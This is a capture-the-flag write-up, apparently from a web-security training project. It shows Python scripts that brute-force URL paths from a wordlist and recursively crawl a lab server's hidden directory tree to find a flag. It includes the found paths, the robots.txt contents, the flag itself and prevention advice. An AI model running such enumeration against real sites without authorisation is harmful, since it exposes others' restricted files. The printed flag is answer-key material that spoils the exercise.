

# URL_BRUTE_FORCING_(2)

## 🏴 Flag

```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

## 📌 Extract

The goal of this scrapping is to find hidden files of the website, with a .txt containing a lot of files name, (we use another .txt).

```python
def scrapper(url: str, dict: str):
	try:
		if not url.endswith("/"):
			url += '/'
		if not url.startswith("http://"):
			url = "http://" + url
		l = []
		with open(dict) as suffixes:
			for word in suffixes:
				if "\n" in word:
					word = word[0:-1]
				res = requests.get(url + word)
				if res.status_code == 200 and "404" not in res.text:
					print("Url Found :", url + word)
					l.append(url+word)
			print(l)
	except Exception as e:
		print(e)
		print(l)
```

Url Found : http://10.11.248.209/admin
Url Found : http://10.11.248.209/admin/
Url Found : http://10.11.248.209/admin/index.php
Url Found : http://10.11.248.209/admin/?/login
Url Found : http://10.11.248.209/favicon.ico
Url Found : http://10.11.248.209/index.php
Url Found : http://10.11.248.209/robots.txt

In the /robots.txt, we can see this: 

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

There is a .hidden directory. When we access to it we found a directory containing directories,…



There is 28^3 directories, containing a README for each. So we need to do a recursive function to scrap all README until we met a FLAG.

```python
def write_readme_content(url, content):
    try:
        with open("readme_contents.txt", "a", encoding="utf-8") as f:
            f.write(f"URL: {url}\n")
            f.write(f"Contenu: {content}\n")
    except Exception as e:
        print(f"Erreur lors de l'écriture dans le fichier: {e}")

def scrape_directory(url, visited_urls=set()):
	if url in visited_urls:
		return set()
	visited_urls.add(url)
	out = requests.get(url)
	files = set()
	links = re.findall(r'<a href="(.*?)">', out.text)
	for link in links:
		full_url = urljoin(url, link)

		if full_url.endswith('/'):
			files.update(scrape_directory(full_url, visited_urls))
		else:
			if 'README' in link:
				print_readme_content(full_url)

	return files

def print_readme_content(url):
	try:
		response = requests.get(url)
		if response.status_code == 200:
			print(response.text)
			write_readme_content(url, response.text)
	except Exception as e:
		print(f"Error fetching {url}: {e}")

start_url = "http://10.13.248.106/.hidden/"
files = scrape_directory(start_url)
print("Finishedd:)")
```

And after few minutes, we get the good README file. 

```jsx
URL: http://10.13.248.106/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README
Contenu:
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

The program put all the contents of all file in a readme_content.txt.

## **🎯 Use**

This vulnerability involves exploiting hidden or unprotected directories on a website to gain unauthorized access to sensitive information or functionality. Without proper security measures, attackers can:

- **Discover hidden directories** containing sensitive files or data.
- **Access restricted areas** of the website, such as admin panels.
- **Retrieve credentials or configuration files** that can be used for further exploitation.
- **Bypass security mechanisms** by finding and exploiting unprotected resources.

## **🔒 Prevention**

1. **Directory Listing Prevention:** Disable directory listing on the server to prevent exposure of directory contents.
2. **Access Controls:** Implement strict access controls to restrict access to sensitive directories.
3. **Monitor and Log:** Regularly monitor and log access attempts to detect and respond to unauthorized access.
4. **Use Robots.txt Wisely:** Avoid listing sensitive directories in robots.txt, as this can inadvertently expose them.
5. **Regular Audits:** Conduct regular security audits to identify and secure hidden or unprotected directories.

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#readme)
